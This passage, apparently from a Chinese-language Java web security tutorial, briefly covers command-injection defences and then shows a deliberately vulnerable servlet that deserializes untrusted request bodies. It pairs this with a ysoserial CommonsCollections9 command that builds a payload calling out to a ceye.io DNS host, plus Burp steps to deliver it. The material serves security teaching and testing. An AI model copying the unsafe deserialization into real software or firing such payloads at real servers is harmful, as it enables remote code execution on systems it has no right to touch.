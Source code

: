 ### 防御

1. 如需传入参数，尽可能的使用白名单
2. 限制特殊字符（&& || | ; $ 等特殊字符）

## 反序列化

### 实例代码

```java
 package com.example.servlet_test;

import javax.servlet.*;
import javax.servlet.http.*;
import javax.servlet.annotation.*;
import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputStream;
import java.util.List;

@WebServlet(name = "exec2Servlet", value = "/exec2Servlet")
public class exec2Servlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {

    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        ObjectInputStream ois = new ObjectInputStream(request.getInputStream());
        try {
            List<Integer> pra = (List)ois.readObject();
            //Integer I = pra.get(0);
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }
        ois.close();
    }
}
//如需复现记得添加commons-collections 3.1这个库
```

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections9 "nslookup x.xxx.ceye.io" > 1.bin
这里用什么gadgets跟你的环境有关，不细说

然后burp 右键paste from file 选择1.bin
```
